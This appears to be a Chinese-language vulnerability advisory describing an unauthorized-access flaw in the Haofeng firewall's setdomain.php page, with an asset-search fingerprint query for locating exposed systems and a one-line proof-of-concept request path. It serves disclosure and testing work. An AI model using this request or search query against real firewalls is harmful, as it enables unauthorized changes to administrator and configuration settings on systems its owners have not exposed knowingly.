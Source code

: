 # 皓峰防火墙 setdomain.php 越权访问漏洞

# 皓峰防火墙 setdomain.php 越权访问漏洞

## 漏洞描述

皓峰防火墙 setdomain.php 页面存在越权访问漏洞，攻击者通过漏洞可修改管理员等配置信息

## 漏洞影响

```
皓峰防火墙
```

## 网络测绘

```
app="皓峰防火墙系统登录"
```

## 漏洞复现

登录页面

![img](/images/202202110917093.png)

验证POC

```php
/setdomain.php?action=list
```

![img](/images/202202110916092.png)

